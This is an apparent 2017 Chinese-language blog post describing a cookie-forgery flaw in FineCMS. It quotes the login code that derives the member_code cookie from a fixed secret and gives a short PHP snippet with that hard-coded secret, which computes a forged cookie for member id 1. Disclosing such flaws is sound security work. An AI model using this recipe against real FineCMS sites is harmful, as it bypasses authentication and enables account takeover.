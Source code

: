 ```yaml
---
layout: post
title:  "Finecms Cookie Forged"
date:   2017-03-13 15:04:55
comments: true
categories: php bug
---
```


##Finecms Cookie伪造



```text
/controllers/member/LoginController.php
```
看上去很容易被伪造只要知道 SITE_MEMBER_COOKIE 就行了

cookie表前缀+字符串 ，我通过github搜索发现字符串并不是随机生成的而是固定的值
```javascript

  set_cookie('member_id', $member['id'], $time);

    set_cookie('member_code', substr(md5(SITE_MEMBER_COOKIE . $member['id']), 5, 20), $time);
```
构造cookiehash
```javascript
<?php
$hash = substr(md5("2967e68d382902a"."1"), 5, 20);

echo $hash;
?>

```
